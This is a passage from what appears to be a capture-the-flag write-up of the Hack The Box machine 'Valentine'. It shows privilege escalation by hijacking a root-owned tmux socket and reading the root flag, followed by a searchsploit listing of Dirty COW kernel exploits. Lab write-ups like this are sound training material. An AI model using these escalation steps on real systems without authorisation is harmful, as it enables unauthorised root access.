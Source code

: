 I first want to try the tmux vulnerability, because the kernel exploit may crash the machine:

```bash
hype@Valentine:~/tmp$ ps aux | grep tmux
root       1027  0.0  0.1  26416  1600 ?        Ss   03:38   0:10 /usr/bin/tmux -S /.devs/dev_sess
hype      27376  0.0  0.0  13580   924 pts/0    S+   11:59   0:00 grep --color=auto tmux
```

I try to execute the same command again and it worked, I am now root:

```bash
hype@Valentine:~/tmp$ /usr/bin/tmux -S /.devs/dev_sess
root@Valentine:/home/hype/tmp# whoami
root
```

There is the root shell, time to grab that flag.

## Getting The Root Flag

---

The root flag lies in /root:

```bash
root@Valentine:/home/hype/tmp# cat /root/root.txt
f1**************************65b2
```

# Trying The Kernel Exploit

---

In this section, I exit the root shell and try to get root via the kernel exploit. If the machine would crash, I just leave this section uncompleted.

The kernel exploit (3.2.0-23) I found is also known under the name `dirty cow`:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/valentine]
└─$ searchsploit dirty                                                                                          130 ⨯
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page (1)              | linux/dos/43199.c
Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page (2)              | linux/dos/44305.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Pri | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Esc | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Acces | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege  | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access | linux/local/40611.c
Qualcomm Android - Kernel Use-After-Free via Incorrect set_page_dirty() in KGSL     | android/dos/46941.txt
Quick and Dirty Blog (qdblog) 0.4 - 'categories.php' Local File Inclusion           | php/webapps/4603.txt
Quick and Dirty Blog (qdblog) 0.4 - SQL Injection / Local File Inclusion            | php/webapps/3729.txt
```